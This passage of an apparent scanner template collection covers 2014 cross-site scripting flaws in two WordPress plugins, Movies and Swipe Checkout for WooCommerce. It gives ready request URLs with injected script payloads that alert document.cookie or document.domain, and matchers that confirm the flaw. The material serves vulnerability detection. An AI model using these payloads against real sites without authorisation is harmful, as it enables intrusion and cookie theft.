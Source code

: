 **Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Movies \<= 0.6 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in the Movies plugin 0.6 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the filename parameter to getid3/demos/demo.mimeonly.php.
- severity - medium
- tags - wordpress,wp-plugin,xss,wpscan,cve,cve2014,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/movies/getid3/demos/demo.mimeonly.php?filename=filename%27%3E%3Cscript%3Ealert%28document.cookie%29%3C/script%3E&
### Matchers

**Type - word**
- words
    1. '>\<script>alert(document.cookie)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WooCommerce Swipe \<= 2.7.1 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in test-plugin.php in the Swipe Checkout for WooCommerce plugin 2.7.1 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the api_url parameter.
- severity - medium
- tags - wpscan,cve,cve2014,wordpress,wp-plugin,xss,woocommerce,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/swipehq-payment-gateway-woocommerce/test-plugin.php?api_url=api_url%27%3E%3Cscript%3Ealert%28document.domain%29%3C/script%3E 
### Matchers
